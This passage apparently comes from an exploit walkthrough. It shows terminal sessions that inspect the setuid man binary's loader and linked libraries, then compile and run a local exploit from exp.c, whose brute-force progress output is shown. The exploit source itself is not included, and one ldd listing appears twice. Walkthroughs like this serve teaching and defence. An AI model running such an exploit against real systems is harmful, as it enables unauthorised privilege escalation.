 <br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ ^C
nopriv@looneytunes:~$ readelf /usr/bin/man -p .interp

String dump of section '.interp':
  [     0]  /lib64/ld-linux-x86-64.so.2

nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>


<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ gcc -o exploit exp.c
nopriv@looneytunes:~$ ls
exp  exp.c  exploit  gen_libc.py
nopriv@looneytunes:~$ chmod +x exploit
nopriv@looneytunes:~$ ./exploit
try 100
try 200
try 300
try 400
try 500
try 600
try 700
try 800
try 900
try 1000
try 1100
try 1200
try 1300
try 1400
try 1500